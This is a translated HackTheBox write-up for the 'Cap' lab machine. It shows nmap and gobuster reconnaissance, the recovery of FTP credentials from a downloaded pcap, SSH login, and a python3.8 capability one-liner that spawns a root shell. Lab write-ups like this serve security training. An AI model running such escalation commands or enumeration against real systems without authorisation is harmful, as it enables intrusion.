



# HTB 船长|特写，黑客盒子

> 原文：<https://infosecwriteups.com/cap-htb-writeup-hackthebox-882bb62bd60b?source=collection_archive---------1----------------------->

## 这是我为 HackTheBox 上的“爱”盒子写的文章



# 侦察

```
Nmap scan report for 10.10.10.245
Host is up (0.079s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
|     Date: Sun, 06 Jun 2021 02:22:52 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 232
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
```

# gobuster

```
gobuster dir -u http://10.10.10.245/ -w /usr/share/SecLists/Discovery/Web-Content/raft-small-words-lowercase.txt -t 50
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.245/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/raft-small-words-lowercase.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/data                 (Status: 302) [Size: 208] [--> http://10.10.10.245/]
/ip                   (Status: 200) [Size: 17464]                         
/capture              (Status: 302) [Size: 220] [--> http://10.10.10.245/data/7]

===============================================================
```

数据目录看起来很有趣。我们去看看。

在`/data`目录中找到了太多的`files`。在点击并尝试了`directory`中的每个文件后，我发现了一个名为`0`的`interesting`文件。



下载后，我们找到的文件是一个. pcap 文件。所以我们找到了窃听器。然后，我们只对 ftp 流量应用过滤器，在这里我们可以找到用户名和密码。


幸运的是，这些也是对 ssh 有用的。

所以，现在我们通过 ssh 以 nathan 的身份登录:



现在，我们可以读取 user.txt

# 权限提升

现在，使用 linpeas 收集关于这台机器的更多信息。

在分析了输出之后，我发现了一个带有`python3.8`的功能选项卡

GTFObins 将帮助您获得 root:

```
python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```